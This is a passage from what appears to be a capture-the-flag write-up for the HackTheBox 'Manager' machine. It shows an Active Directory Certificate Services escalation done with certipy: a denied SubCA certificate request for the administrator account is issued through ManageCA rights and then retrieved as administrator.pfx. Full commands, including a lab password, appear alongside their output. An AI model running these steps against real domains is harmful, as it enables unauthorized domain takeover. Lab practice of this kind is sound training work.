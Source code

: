 ```shell
    Machine
    User
    Administrator
```

"SubCA" template results enabled. Completed prerequisites. 

Third step: we can start by requesting a certificate based on the SubCA template. This request will be denied, but we will save the private key and note down the request ID.

```shell
$ certipy req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -target 10.10.11.236 -ca 'manager-DC01-CA' -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

Request ID is 13.  The command above causes the "Manage Certificates" right to be lost (must figure out if it is a box problem or is it really so) so the first step is repeated since both rights are needed, i.e., "Manage Certificates" and "ManageCA."

Fourth step: we can then **issue the failed certificate** request with the `ca` command and the `-issue-request <request ID>` parameter.

```shell
$ certipy ca -ca 'manager-DC01-CA' -issue-request 13 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Fifth and last step:  we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```shell
$ certipy req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -target 10.10.11.236 -ca 'manager-DC01-CA' -retrieve 13  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
